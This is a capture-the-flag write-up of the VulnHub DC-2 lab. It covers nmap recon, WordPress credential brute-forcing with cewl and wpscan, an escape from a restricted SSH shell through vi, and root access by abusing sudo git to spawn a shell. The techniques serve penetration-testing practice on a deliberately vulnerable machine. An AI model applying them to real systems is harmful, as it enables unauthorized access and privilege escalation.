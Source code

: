 ```yaml
---
layout: single
title: DC-2 Writeup
tags: vulnhub
date: 2020-05-23
classes: wide
excerpt: DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. 
---
```

DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. Please do not forget to set up your hostname for dc-2, you can do this by editing `/etc/hosts` and inserting the IP of your machine then dc-2. `IP	dc-2`
## Recon
### Nmap Scan
```
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```
### Website 80-TCP
Upon visiting the site, we are greeted by a wordpress-type of a site and it seems that one of the tab in the navigation bar is the FLAG.

![f6f89e5a77d41206f1b806ade2ee3367.png](/blog/assets/images/DC-2/1eaeca1fa6cf4cdfbb50a9e0bdc98c36.png)
Hmmm, it looks like its hinting us to use a tool called `cewl`.
Technically, Cewl is a tool that is used to generate wordlists by going through the site you have given it to visit which means it makes a list of possible usernames,passwords and etc.

using the command `cewl http://dc-2 -w wordlist.txt` it generated a file that contains words, because of the hint in the FLAG 1 I think we need to bruteforce for credentials.

We can bruteforce wordpress credentials by using `wpscan` a tool use for enumerating wordpress and its components it also supports credential bruteforcing.

To bruteforce for the credentials use `wpscan --url URL -P wordlist.txt` and wait for a while.
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
 ```
 
 ### User
 To get our initial foothold let's login to the wordpress portal first by visiting `http://dc-2/wp-admin/`.
 
 Looking around the site it seems that we can't find a way to gain foothold here but alas we have found another FLAG in the pages tab.
 
![c30c5f192fe37a3ee2c726bab8d9c320.png](/blog/assets/images/DC-2/1c69c8635bbb4f4e8e18e544ab35a558.png)
Hmmmm, another hint huh? it looks like its telling us that there's another way to get in but our nmap scan only has PORT 80 on it. This time let's do a full tcp nmap scan.

![full-tcp.png](/blog/assets/images/DC-2/73ef46075b234daab26526252eabd888.png)
Ahoy! it looks like we have another port which is `7744` let's try to figure out what service is running under that port by doing `nc dc-2 7744`. BOOM! we got ourselves a OPENSSH Port maybe this is the entry point that the FLAG 2 was trying to say.

Logging in with tom and his credentials we are in but unfortunately we are in a restricted environment :( fortunately there's still a way for us to get out of this restricted environment, by using `vi` and writing `:set shell=/bin/bash` and `:shell` we can get out of the place.

#### BROOKEN COOOMANDS EVERYWHERE
```
tom@DC-2:~$ id
bash: id: command not found
```
We can fix this, I know we can by setting 
```
export PATH=/usr/local/sbin:/sbin:/usr/sbin:/usr/bin:/bin:/usr/local/games:/usr/games
```
#### Root


![flag3.png](/blog/assets/images/DC-2/6a464bdb055845c28c84742bf8cdc05b.png)

Reading flag3 and again it is hinting us what to do next like the previous flags and right now it seems it is hinting us to change our user to Jerry and we shall do it!

![cbd0b9326f27dfdf87cb793b85a4c17d.png](/blog/assets/images/DC-2/0cbe77f8fcb44de6825b011642c13420.png)
Checking our permissions using `sudo -l` we now find that we can run `git` as root and by using our friendly neighborhood [spiderman](https://gtfobins.github.io/gtfobins/git/). 


![2af2c776c78cbb443f1a6d900d615f33.png](/blog/assets/images/DC-2/387d7d09ac04495e9f9c5b7da9618aa2.png)




We can root the machine  through using 
```
sudo git branch --help config
!/bin/sh
```
```
# whoami
root
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 
```









